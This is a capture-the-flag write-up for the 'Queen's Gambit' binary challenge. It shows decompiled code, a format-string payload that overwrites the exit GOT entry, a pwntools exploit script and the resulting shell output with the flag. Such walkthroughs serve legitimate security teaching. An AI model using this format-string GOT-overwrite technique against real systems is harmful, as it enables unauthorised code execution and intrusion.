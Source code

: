 # **Queen's Gambit**
## Task
nc challenges.ctfd.io 30458
File: chess
Tag: binary exploitation

## Solution

### Checksec 
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
* No Canary found assume BOF
* System 64 bit
* No Pie assume to overwrite GOT

### Load file in IDA pro 
With IDA pro, it helped us to define the `main`
## Pseudocode C main
```c
int __fastcall main(int a1, char **a2, char **a3)
{
  size_t v3; // rax
  size_t v4; // rax
  int result; // eax
  int v6; // [rsp+Ch] [rbp-C4h] BYREF
  char src[24]; // [rsp+10h] [rbp-C0h] BYREF
  char s[8]; // [rsp+28h] [rbp-A8h] BYREF
  char dest[160]; // [rsp+30h] [rbp-A0h] BYREF

  puts("\n================================================================");
  puts("                Q U E E N ' S    G A M B I T                    ");
  puts("================================================================\n");
  puts("                              ()    ");
  puts("                           .-:--:-. ");
  puts("                            \\____/  ");
  puts("                            {====}  ");
  puts("                             )__(   ");
  puts("                            /____\\  ");
  puts("                             |  |   ");
  puts("                            /____\\  ");
  puts("                           (======) ");
  puts("                           }======{ ");
  puts("                          (________)");
  puts("\n================================================================");
  puts("\nChess puzzles to train you brain.\nBecome a Grand Master.\n");
  puts("================================================================\n\n");
  puts("1) Play");
  puts("2) Chess Server Admin");
  puts("3) Quit");
  printf("\n>> ");
  fgets(s, 8, stdin);
  __isoc99_sscanf(s, "%d", &v6);
  if ( v6 == 1 )
  {
    printf("Enter your name:\n>> ");
    fgets(src, 16, stdin);
    src[strlen(src) - 1] = 0;
    sub_40122C();
    strcpy(&dest[strlen(dest)], "\nCongratulations ");
    strcat(dest, src);
    strcpy(&dest[strlen(dest)], "! Your answer was correct!\n\nYour winning move was: \n");
    strcat(dest, ::src);
    printf(dest);
    v3 = strlen(dest);
    memset(dest, 0, v3);
    sub_40142C();
    strcpy(&dest[strlen(dest)], "\nCongratulations ");
    strcat(dest, src);
    strcpy(&dest[strlen(dest)], "! Your answer was correct!\n\nYour winning move was: \n");
    strcat(dest, ::src);
    printf(dest);
    v4 = strlen(dest);
    memset(dest, 0, v4);
    sub_4015F9();
    strcpy(&dest[strlen(dest)], "\nCongratulations ");
    strcat(dest, src);
    strcpy(&dest[strlen(dest)], "!\nThat was the final puzzle!!!\n\nYour Winning moves was: \n");
    strcat(dest, ::src);
    printf(dest);
    result = puts("\n\nYou defeated the Borgovotron!\nKeep training and you'll be a Grand Master in no time!!!\n");
  }
  else
  {
    if ( v6 == 2 )
      sub_4011F5();
    result = puts("\nQuitting!");
  }
  return result;
}
```
In totally, it is a chess game which has 3 round
Read the source we can easily win the game with steps respectively respond to "Ra1" "Qg7" "Kd2" input. But this challenge is not easy like that :)

## After win the game we got not thing
```bash
Congratulations iXz!
That was the final puzzle!!!

Your Winning moves was:
Kd2


You defeated the Borgovotron!
Keep training and you'll be a Grand Master in no time!!!
```
 Then keep on examining the source in IDA 
 In the Strings window, I have found out the interest string "/bin/sh" :))
 ![](Strings.png)
 I got the shell func at `0x4011C2` address

 ```c
 int sub_4011C2()
{
  printf("Welcome, Mr Shaibel...\n\n#");
  fflush(stdout);
  return system("/bin/sh");
}
```
Then I focus on overwrite the return address and overwrite GOT table
Another noticeble bug is `printf(dest)` without format string -> format string exploit

Finally, I was win this challenge by overwrite GOT `exit` through format string vulnability

Easy to call the `exit` by input wrong step, so We have to overwrite the exit with the shell func then set wrong input to WIN

```c
  fgets(src, 128, stdin);
  __isoc99_sscanf(src, "%s", s1);
  result = strcmp(s1, "Ra1");
```

the author use the `sscanf` and `strcmp` to check step move input. Both of the functions inorge the space character. Therefore, it's easy for us to set format string payload after the space

# However, First I have to find the offset of format string

```bash
$ python -c "print('1\n'+'AABB\n'+'Ra1 ' +'%x.'*40 + '\nQg7'+'\nKd2\n')" > Input.txt
$ ./chess < Input.txt
```

```bash
Congratulations AABB! Your answer was correct!

Your winning move was:
Ra1 4041e0.1d.60.0.ffffe070.0.0.42424141.0.0.a31.6e6f430a.74616c75.42414120.2072756f.77207265.6572726f.756f590a.6e696e6e.77206576.3161520a.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.f7e177cf.0.41f8d1f4.4010e0.
```

`42424141` -> offset is 8
```bash
 ► 0x401a67    mov    eax, 0
   0x401a6c    call   printf@plt <printf@plt>
   ....
pwndbg> x/xg 0x404068
0x404068 <exit@got.plt>:        0x00000000004010d6
```
shell func has address : `0x4011c2`. we just have to overwrite 2 head bytes and 0x40 tail are the same both
`payload = "Ra1 %4470x%8$n"`. `4470` is mean 0x11c2(4556) = 4470 + 76 -> 76 byte which was already written out 

# After the `printf` instruction
```bash
   0x401a6c    call   printf@plt <printf@plt>
 ► 0x401a71    lea    rax, [rbp - 0xa0]
 pwndbg> x/xg 0x404068
 0x404068 <exit@got.plt>:        0x00000000004011c2
```
`got.exit` was overwritten !!

### Script python using pwntool
```python
from pwn import *

binary = context.binary = ELF('./chess')

p = remote('challenges.ctfd.io', 30458)
#p = process(binary.path)
# "\x68\x40\x40A\x00\x00\x00\x00\x00B" is p64(binary.sym.got.exit)
p.sendline("1")
p.sendlineafter("Enter your name", "\x68\x40\x40A\x00\x00\x00\x00\x00B")

# send payload format string
p.sendlineafter("h1", b"Ra1 %4470x%8$hn")

# send wrong step move to call got.exit()
p.sendlineafter("- Qg7", "Qg8")

# maintain shell
p.interactive()
```


### Output

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenges.ctfd.io on port 30458: Done
[*] Switching to interactive mode


>>
Incorrect!!
Welcome, Mr Shaibel...

#/bin/sh: 0: can't access tty; job control turned off
# $ ls
bin  chess  dev  flag.txt  lib    lib32  lib64
$ cat flag.txt
# flag{And_y0u_didnt_ev3n_n33d_th3_pills}
```
